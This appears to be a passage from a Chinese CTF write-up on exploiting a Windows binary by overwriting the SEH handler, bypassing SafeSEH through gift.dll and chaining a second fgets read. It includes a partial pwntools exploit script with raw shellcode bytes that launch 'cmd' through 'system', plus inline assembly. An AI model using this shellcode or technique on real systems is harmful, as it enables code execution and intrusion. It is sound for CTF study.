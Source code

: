 那么我们就可以通过写入跳转指令来使程序跳转到 `gift.dll` 中从而绕过 `safeSEH` 的检测

通过观察栈发现有一个是我们可以覆盖其指向的内存的栈地址`0019FF64`，也就是我们覆盖`__except_handler4`的位置的上方，可以利用这个 gadget 来实现跳到对应位置上

[![](assets/1707953973-4c071f6be398e648c6c0f2cff8c1cabe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205192932-d571f090-c419-1.png)

然后因为`gift.dll`没有`\x00`字节，所以我们可以在其后方布置`shellcode`，四字节 shellcode 可以用如下方式跳转到后面

```plain
jmp_8 = asm("jmp $+8")
```

这样就可以直接跳到后面去了

但是 getshell 所需要的字符量太大了，例如用 `kali` 的 `msfvenom` 生成的 `shellcode` 至少需要 200 余个字节，我们一次也就只能输入 200 字节

所以还要用 reread 的思想，再构造一个 fget 输入足量的字节到对应地址即可

当然要注意 shellcode 中不能有\\x00 字节

所以脚本如下：

```plain
from pwn import * 

pop2 = 0x271f16ac #: pop ecx ; pop ebp ; ret
#context.log_level='debug'
context.arch='i386'
p = remote("127.0.0.1",1234)

shell = b'U\x8b\xec\x83\xec SVW\xc7E\xe8u\x00c\x00\xc7E\xecr\x00t\x00f\xc7E\xfccm\xc6E\xfed\xc7E\xe0systf\xc7E\xe4em\xc6E\xe6\x00d\xa10\x00\x00\x00\x83\xc0\x0c\x8b\x00\x89E\xf8\x8b}\xf8\x83\xc7\x14\x8b\x17;\xd7t8\x8dd$\x00\x8br(\x8dM\xe83\xc0+\xf1\x8d\x9b\x00\x00\x00\x00\x8d\x0cFf\x8bL\r\xe8f;LE\xe8u\x06@\x83\xf8\x04|\xeb\x83\xf8\x04\x0f\x84\x82\x00\x00\x00\x8b\x12;\xd7u\xcc\x8b}\xf8\x8bG<3\xf6\x8b\\8x\x8bD;\x1c\x03\xdf\x03\xc7\x89E\xf0\x8bK \x8bC$\x03\xcf\x03\xc7\x89M\xec\x89E\xf49s\x18vI\x8b\x14\xb1\x8dE\xe0\x03\xd73\xc9+\xd0\x8dd$\x00\x8d\x04\x11\x8aD\x05\xe0:D\r\xe0u\x06A\x83\xf9\x06|\xed\x83\xf9\x06u\x18\x8bM\xf0\x8dE\xfcP\x8bE\xf4\x0f\xb7\x04p\x8b\x04\x81\x03\xc7\xff\xd0\x83\xc4\x04\x8bM\xecF;s\x18r\xb7_^[\x8b\xe5]\xc3\x8bz\x10\xeb\x82'

assert(b'\n' not in shell)

# eip = p32(0x62616167)
# payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
# offset = cyclic_find(payload,eip)
# success('offset : ' + hex(offset))

shellcode = '''
    mov ecx,0x01010101
    mov eax,0x14121bd           /*__acrt_iob_func*/
    xor eax,ecx 
    mov ebx,[eax]
    xor ecx,ecx
    push ecx
    call ebx
    pop ecx

    push eax

    mov ecx,0x01010101          /*fgets*/
    push ecx

    xor eax,eax
```